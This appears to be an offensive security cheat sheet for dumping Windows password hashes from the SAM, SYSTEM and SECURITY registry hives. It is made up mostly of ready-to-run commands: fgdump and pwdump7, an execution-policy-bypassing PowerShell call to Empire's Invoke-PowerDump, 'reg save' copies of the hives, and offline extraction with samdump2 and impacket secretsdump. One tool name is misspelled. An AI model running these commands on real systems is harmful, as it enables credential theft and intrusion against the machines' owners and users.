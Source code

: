 # dump SAM SYSTEM

## [fgdump](http://foofus.net/goons/fizzgig/fgdump/fgdump-usage.htm) | [pwdump7](https://www.tarasco.org/security/pwdump\_7/)

```bash
> fgdump.exe

> pwdump7.exe
```

## [dump.ps1](https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-PowerDump.ps1)

```bash
> powershell.exe -exec bypass -Command "& {Import-Module .\Invoke-PowerDump.ps1; Invoke-PowerDump}"
```

## manually

```bash
# actual location
C:\Windows\System32\config\SAM
C:\Windows\System32\config\SECURITY
C:\Windows\System32\config\SYSTEM
# other locations
C:\Windows\System32\config\RegBack
C:\Windows\Repair

reg save hklm\sam c:\Users\Public\ksam
reg save hklm\system c:\Users\Public\ksystem
reg save hklm\security c:\Users\Public\ksecurity

# on kali
samdump2 ksystem ksam
impacket-secrectsdump -sam ksam -security ksecurity -system ksystem LOCAL
```
